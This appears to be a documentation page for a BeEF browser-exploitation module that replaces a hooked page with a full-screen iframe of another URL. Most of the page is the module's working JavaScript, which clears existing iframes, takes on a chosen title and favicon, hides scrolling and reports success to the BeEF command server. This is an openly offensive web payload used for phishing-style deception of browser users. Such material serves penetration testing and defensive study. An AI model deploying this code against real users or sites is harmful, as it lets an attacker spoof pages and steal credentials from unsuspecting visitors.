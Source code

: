 ## Summary

* **Objective**: Replaces page content with another URL with an iFrame
* **Authors**: ethicalhack3r, Yori Kvitchko
* **Browsers**: All

* [Code](https://github.com/beefproject/beef/tree/master/modules/browser/hooked_domain/site_redirect_iframe)

## Internal Working

```js

var result = 'Iframe successfully created!';
var title = '<%= @iframe_title %>';
var iframe_src = '<%= @iframe_src %>';
var iframe_favicon = '<%= @iframe_favicon %>';
var sent = false;

$j("iframe").remove();

beef.dom.createIframe('fullscreen', {'src':iframe_src}, {}, function() { if(!sent) { sent = true; document.title = title; beef.net.send('<%= @command_url %>', <%= @command_id %>, 'result='+result); } });
document.body.scroll = "no";
document.documentElement.style.overflow = 'hidden';
beef.browser.changeFavicon(iframe_favicon);


```

## Screenshots

[[Images/module-redirect-iframe1.png|align=center]]


## Feedback

